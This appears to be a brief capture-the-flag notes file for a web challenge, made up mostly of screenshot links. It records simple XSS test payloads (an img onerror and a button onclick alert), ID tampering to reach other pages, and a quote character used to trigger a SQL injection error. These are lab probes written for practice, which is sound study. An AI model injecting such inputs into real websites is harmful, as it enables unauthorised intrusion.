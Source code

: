 # Flag 1
![[Pasted image 20230224162223.png]]
![[Pasted image 20230224162246.png]]
`<img src onerror="alert('XSS')"/>`
![[Pasted image 20230224162558.png]]
![[Pasted image 20230224162606.png]]

# Flag 2
`<button onclick=alert(1)>Some button</button>`

![[Pasted image 20230224163008.png]]

# Flag 3

![[Pasted image 20230304151520.png]]
changing number to see if we can access any other pages 
![[Pasted image 20230304151612.png]]
# Flag 4 
adding ' after page id number we get error *SQLI*
![[Pasted image 20230304151905.png]]

